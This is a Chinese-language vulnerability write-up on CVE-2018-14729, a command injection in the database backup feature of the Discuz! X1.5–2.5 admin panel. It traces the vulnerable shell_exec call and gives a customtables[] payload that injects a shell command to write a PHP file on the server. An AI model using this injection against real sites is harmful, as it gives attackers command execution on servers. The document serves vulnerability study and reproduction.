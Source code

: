 （CVE-2018-14729）Discuz!X 1.5 \~ X2.5 后台数据库备份功能远程命令执行 Getshell
==============================================================================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X1.5-2.5

三、复现过程
------------

### 漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用Discuz! 2.5完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

    source/admincp/admincp_db.php

第296行：

    @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);

在shell\_exec()函数中可控点在\$tablesstr，向上看到第281行：

    $tablesstr = '';
    foreach($tables as $table) {
        $tablesstr .= '"'.$table.'" ';
    }

跟一下\$table的获取流程，在上面的第143行：

    if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
    {
        $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
    } 
    elseif($_GET['type'] == 'custom') 
    {
        $tables = array();
        if(empty($_GET['setup'])) 
        {
            $tables = C::t('common_setting')->fetch('custombackup', true);
        } 
        else 
        {
            C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
            $tables = & $_GET['customtables'];
        }
        if( !is_array($tables) || empty($tables)) 
        {
            cpmsg('database_export_custom_invalid', '', 'error');
        }
    }

可以看到：

    C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
    $tables = & $_GET['customtables'];

首先会从\$\_GET的数组中获取customtables字段的内容，判断内容是否为空，不为空则将从外部获取到的customtables字段内容写入common\_setting表的skey=custombackup的svalue字段，写入过程中会将这个字段做序列化存储：

![](resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId25.jpg)

之后再将该值赋给\$tables。

至此可以看到漏洞产生的原因是由于shell\_exec()中的\$tablesstr可控，导致代码注入。

### 漏洞复现

首先抓个包

![](resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId27.jpg)

这样可以抓到符合我们条件的请求包。

![](resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId28.jpg)

接下来只需要将customtables的内容更改一下就可以造成命令执行了：

    customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

![](resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId29.jpg)

![](resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId30.jpg)

效果为：

![](resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId31.jpg)

参考链接
--------

> https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz\_backend\_getshell.md
>
> https://www.anquanke.com/post/id/158270
